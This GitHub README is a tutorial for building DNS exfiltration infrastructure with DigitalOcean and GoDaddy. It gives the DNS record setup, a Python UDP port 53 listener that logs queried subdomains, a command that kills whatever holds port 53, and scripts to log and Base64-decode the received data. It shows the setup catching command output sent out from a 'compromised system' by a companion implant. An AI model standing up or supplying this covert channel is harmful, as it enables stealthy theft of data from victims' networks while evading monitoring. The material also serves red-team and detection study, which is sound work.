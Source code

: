 # DNS Exfiltration
Tutorial and scripts for DNS exfiltration using DigitalOcean and GoDaddy

-------------------------------------------

### DigitalOcean

Create a project, connect the GoDaddy's domain to it and create a droplet.

![img2b](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/dns-exfiltration/Screenshot_2b.png)

Then, add the following DNS records:

- "A" record for your domain, for example "domain.com", pointing to the droplet's IP address
- "A" record for subdomain "ns" pointing to the droplet's IP address
- "NS" record for a subdomain, for example "steve", pointing to the droplet's IP address
   - NOTE: This is the subdomain we will use for DNS exfiltration.
- "NS" record redirecting to ns1.digitalocean.com (if not already in there)
- "NS" record redirecting to ns2.digitalocean.com (if not already in there)
- "NS" record redirecting to ns3.digitalocean.com (if not already in there)

![img3](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/dns-exfiltration/Screenshot_3.png)

-------------------------------------------

### GoDaddy

After purchasing a domain in GoDaddy, visit the "DNS Management" section ([https://dcc.godaddy.com/manage/YOUR_DOMAIN/dns](https://dcc.godaddy.com/manage/YOUR_DOMAIN/dns)). You have to add an entry in the "Hostname" subsection, which will contain the host "ns" and will point to your DigitalOcean droplet's IP address:

![img1](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/dns-exfiltration/Screenshot_1.png)

Then, in "Nameservers" subsection, add the DigitalOcean nameservers if they are not already in there (ns1.digitalocean.com, ns2.digitalocean.com and ns3.digitalocean.com):

![img2](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/dns-exfiltration/Screenshot_2.png)


-------------------------------------------

### Testing DNS exfiltration

We can now run a Python script to start monitoring DNS queries to the subdomains "*.steve.domain.com": 

```python
import socket
from dnslib import DNSRecord

ns_subdomain = ".steve"

server = socket.socket (socket.AF_INET, socket.SOCK_DGRAM)
server.bind(('0.0.0.0', 53))

while True:
  data, addr = server.recvfrom (4096)
  d = DNSRecord.parse(data)
  subdomain = str(d.questions[0]._qname).split(ns_subdomain)[0]
  print("Subdomain: " + subdomain)
```

It must be run as superuser and the port 53 is probably already in use so first we can stop any process using that port with:

```
fuser -k 53/udp
```

For example, if your domain is "domain.com" and the record added to DigitalOcean is "steve", we could run a DNS query (from any system) to the subdomain "test.steve.domain.com". If everything is correct, we should see an output similar to this: 

![img5](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/dns-exfiltration/Screenshot_5.png)

However even with a simple "nslookup test.steve.domain.com" command we will find that there are too many queries and they get repeated, so we will use custom scripts to monitor these DNS queries.

-------------------------------------------

### Custom Scripts

If everything works fine, we can run the custom script dns.py where you can set the subdomain to monitor with the parameter -s and a file to store the program output with the parameter -l:

```
python3 dns.py [-s SUBDOMAIN] [-l LOGFILE]
```

Then, the output can be decoded using the custom script decode.py, where you can set a filter with a list of comma-separated minutes from the log file with the parameter -f and the log file to read from with the parameter -l. The implemented decoding function decodes Base64 but you can change it depending on how you encode the exfiltrated data:

```
python3 decode.py -f FILTER_MINUTES -l LOGFILE
```

As an example, I run the [SharpCovertTube](https://github.com/ricardojoserf/SharpCovertTube) program which exfiltrates the command output from the compromised system via DNS, generating several queries:

![img6](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/dns-exfiltration/Screenshot_6.png)

These queries are received by dns.py, which is monitoring the subdomains "*.steve.domain.com", and get stored in the file log.txt:

![img7](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/dns-exfiltration/Screenshot_7.png)

Then we can Base64-decode the DNS queries received in the minute 11:08 and stored in log.txt:

![img8](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/dns-exfiltration/Screenshot_8.png)


------------------------

### Sources

- [https://john-woodman.com/research/dns-exfiltration-setup/](https://john-woodman.com/research/dns-exfiltration-setup/)
